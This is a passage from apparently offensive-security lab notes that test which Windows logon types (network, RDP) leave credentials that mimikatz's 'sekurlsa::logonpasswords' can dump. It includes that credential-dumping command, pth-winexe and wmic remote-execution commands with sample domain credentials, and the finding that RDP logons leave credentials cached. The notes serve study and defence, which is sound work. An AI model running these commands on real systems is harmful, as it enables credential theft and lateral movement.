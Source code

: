 {% code title="attacker@victim" %}
```text
sekurlsa::logonpasswords
```
{% endcode %}

Mimikatz shows no credentials got stored in memory for the user `back`.

## Network Logon \(3\) with Domain Account

Imagine an Incident Responder is connecting to a victim system using a privileged domain account remotely to inspect it for a compromise using pth-winexe, a simple SMB mount or WMI:

{% code title="responder@victim" %}
```csharp
root@~# pth-winexe //10.0.0.2 -U offense/spot%password cmd
```
{% endcode %}

{% code title="responder@victim" %}
```text
PS C:\Users\spot> net use * \\10.0.0.2\test /user:offense\spotless spotless
Drive Z: is now connected to \\10.0.0.2\test.

The command completed successfully.

PS C:\Users\spot> wmic /node:10.0.0.2 /user:offense\administrator process call create calc
Enter the password :********

Executing (Win32_Process)->Create()
Method execution successful.
```
{% endcode %}

{% code title="attacker@victim" %}
```text
sekurlsa::logonpasswords
```
{% endcode %}

Mimikatz shows no credentials got stored in memory for `offense\spotless` or `offense\administrator`.

## Network Interactive Logon \(10\) with Domain Account

RDPing to the victim system:

![](../../.gitbook/assets/pwdum-test5.png)

Credentials were cached and got dumped by mimikatz:

![](../../.gitbook/assets/pwdump-test6.png)

Note that any remote logon with a graphical UI is logged as logon event type 10 and the credentials stay on the logged on system:
